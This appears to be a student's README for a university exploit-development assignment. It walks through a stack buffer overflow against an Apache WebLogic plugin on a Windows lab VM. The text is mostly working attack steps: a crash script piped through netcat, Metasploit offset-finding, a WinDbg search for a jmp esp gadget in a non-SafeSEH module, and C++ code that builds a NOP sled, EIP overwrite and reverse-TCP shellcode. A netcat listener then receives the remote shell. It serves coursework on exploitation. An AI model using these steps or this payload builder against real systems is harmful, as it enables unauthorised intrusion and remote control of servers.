




# Programming Assignment 2 - Eric Seals

Documentation for correctly using the exploit generator. There is one directory, named exploitWin, which contains the relevant files. 

# Task

## Compile the c++ exploiter

There are four relevant files: `devil.pl`, `devil2.pl`, `exploitWin.cpp`, and `Makefile`. 

Build the c++ exploit generator: 
```bash
$ make 
```

Run:
```bash
$ ./exploit <memory address of jmp esp> <offset>
```

## Find Offset and Memory Address

First, confirm the Apache web server is running on the Windows VM at IP `192.168.180.20:80`.
On the Kali machine with IP `192.168.180.10`, generate arbitrarily long malicious input to crash the Apache server. For example, use the following perl script presented in class to send the character 'A' 5000 times (in a format accepted by the server). 

```perl
#!/usr/bin/perl

#filename: devil.pl

$| = 1;

$buf = "A" x 5000;
$request = "GET /weblogic/ $buf\r\n\r\n";
print $request
```

which, on Kali, can be sent with:

```bash
$ perl devil.pl | nc 192.168.180.20 80
```

With a valid length input which crashes the program, use metasploit to find the exact size to the EIP. For example, 5000 is used below as this was the experimentally found value large enough to crash the server.

On Kali, run:

```bash
$ cd /usr/share/metasploit-framework/tools/exploit
$ ./pattern_create.rb -l 5000
```

Use the output of `pattern_create.rb` in place of the 5000 As in the above perl script (the script `devil2.pl` contains this change). Before issuing the command again, open up WinDbg (as admin) on the victim Windows VM to monitor the child Apache process. 

Copy the value where the program crashed, for example `67463467` as seen in the image (also double check, on the line above, the eip=... is the value).



Back on the Kali machine at the same working directory used to create the pattern, execute:

```bash
$ ./pattern_offset.rb -q 67463467
```

This will now give you the offset which was found to be `4093`. 

## Stack Randomization

In order to get around the stack randomization, the WinDBG with the "narly" tool can be used to find regions of memory without ASLR protection. In the WinDBG, run the following :

```bash
> !load narly
> !nmod
```



Any listing here with the `/SafeSEH OFF` will work.
For example, we can search "mod_wl_20" with the addresses `0x10000000` to `0x1008e000` to search for the `jmp esp` command. 
Running the following in WinDBG:

```bash
> s 0x10000000 0x1008e000 ff e4
```



We can use any of these addresses (for example, 0x1005bc0f) to overwrite the EIP. If nothing shows up when the above line is executed, simply try a different address region.

## Run the exploit

To run, in a Kali window to receive the shell:

```bash
$ nc -l -p 8228 -nvv
```

On another terminal window in Kali, run the following two commands to receive the shell with the found address and offset size.

Run:
```bash
$ make
$ EGG=`./exploit 1005bc0f 4093`
$ echo $EGG | nc 192.168.180.20 80
```

At this point you should have the shell in the Kali terminal window which executed the `nc` command. For example, here is a screenshot of the exploit working following procedures outlined above:



## Some Notes

The shell byte code is generated with metasploit, specifically the windows/shell_reverse_tcp with x86/alpha_mixed encoder.
LHOST=192.168.180.10 and LPORT=8228.

The exploit itself fills the space up until the EIP with a NOPSled:

```c++
while (i < size) {
  buf[i++] = '\x90';
}
```

Overwrites the EIP with the address of a `jmp esp`: 

```c++
buf[i++] = addr[0];
buf[i++] = addr[1];
buf[i++] = addr[2];
buf[i++] = addr[3];
```

NOPSled buffers for enough bytes to account for the decoding and callee cleanup (experimentally found 24 bytes is sufficient):

```c++
for (size_t j = 0 ; j < decoderSled ; j++) {
  buf[i++] = '\x90';
}
```

Issues a command to decrement the esp by 200:

```c++
buf[i++] = '\x81';
buf[i++] = '\xC4';
buf[i++] = '\x38';
buf[i++] = '\xFF';
buf[i++] = '\xFF';
buf[i++] = '\xFF';
```

Wraps everything inside an expected server format:

```c++
std::cout << "GET /weblogic/ ";
for (i = 0 ; i < totalSize ; i++) {
  std::cout << buf[i];
}
std::cout << "\r\n\r\n";
```

Final note, during my tests I always found the ESP to be 4 bytes greater than the EIP, however, I expected this not to be case given that the callee "cleans up" on Windows. This isn't a concern as the exploit generator does take this into consideration, but I am curious why I couldn't replicate the professor's in class demo.